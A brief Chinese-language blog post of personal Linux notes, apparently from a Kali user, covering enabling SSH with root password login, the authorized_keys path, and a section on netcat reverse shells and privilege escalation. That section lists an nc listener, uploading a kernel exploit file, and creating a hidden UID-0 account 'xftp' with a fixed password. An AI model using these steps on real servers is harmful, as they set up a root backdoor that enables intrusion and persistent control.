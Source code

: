 ```yaml
---
layout: post
title: "Linux 相关命令"
date: 2017-2-14

---
```

##SSH开启&开机自启动##

1.修改ssh_config文件。命令：```vim /etc/ssh/sshd_config```

2.将```#PasswordAuthentication no```的注释去掉，并且将```NO```修改为```YES```  //我的kali中默认	是yes

3.将```#PermitRootLogin yes```的注释去掉 //我的kali中默认去掉了注释

4.启动SSH服务，命令为：```/etc/init.d/ssh start``` // 或者service ssh start

5.验证SSH服务状态，命令为：```/etc/init.d/ssh status```

6.添加开机自启动 ```update-rc.d ssh enable``` 

   关闭则为：```update-rc.d ssh disabled```


---
##Linux RSA公私钥认证##

路径 ```/root/.ssh/authorized_keys```

```authorized_keys```  ```id_rsa```

---

##Linux下nc反弹&提权##
服务器上面执行 ```NC -vv -l -p （Port）```

上传exp ```2.6.32.exp```

用```ls -l``` 文件名 看权限 是否可执行 如果不能执行 可以```chmod -R 777 filename``` 给予执行权限

```useradd -u 0 -o -g root -G root xftp```

```echo "Admini111" | passwd --stdin xftp```

![image](/images/nsec.png)

